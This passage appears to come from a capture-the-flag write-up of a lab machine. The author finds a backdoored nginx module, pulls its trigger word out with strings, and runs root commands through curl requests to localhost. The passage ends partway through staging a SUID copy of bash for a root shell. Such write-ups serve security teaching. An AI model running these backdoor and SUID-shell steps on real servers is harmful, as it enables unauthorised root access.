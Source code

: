 
And the hashes match:

    
    
    www-data@gobox:~$ md5sum /usr/lib/nginx/modules/ngx_http_execute_module.so
    15f0ad443a4b4888bfbee4e5b2cf0ae6  /usr/lib/nginx/modules/ngx_http_execute_module.so
    
    
    
    oxdf@parrot$ md5sum ngx_http_execute_module.so 
    15f0ad443a4b4888bfbee4e5b2cf0ae6  ngx_http_execute_module.so
    

#### Strings

Just running strings on the binary is enough to figure out the new command
word:

    
    
    oxdf@parrot$ strings ngx_http_execute_module.so
    ...[snip]...
    ippsec.run
    ...[snip]...
    

That looks too similar to `system.run` to not be it.

### Execute via Backdoor

Trying again with the new argument name works:

    
    
    www-data@gobox:~$ curl http://127.0.0.1:8000?ippsec.run[id]
    uid=0(root) gid=0(root) groups=0(root)
    

Typically to save myself having to url-encode, I would switch to a GET (`-G`)
with `--data-urlencode`, but the issue here is that I don’t want to encode the
`[]`.

Still, I can do it myself:

    
    
    www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[ls%20%2froot]'
    iptables.sh
    snap
    

To get shell, I’ll copy Bash into `tmp`:

    
    
    www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[cp%20%2fbin%2fbash%20%2ftmp]'
    curl: (52) Empty reply from server
    www-data@gobox:~$ ls -l /tmp/bash
    -rwxr-xr-x 1 root root 1183448 Aug 26 19:38 /tmp/bash
    

Now `chmod` to set it as SUID:

    
    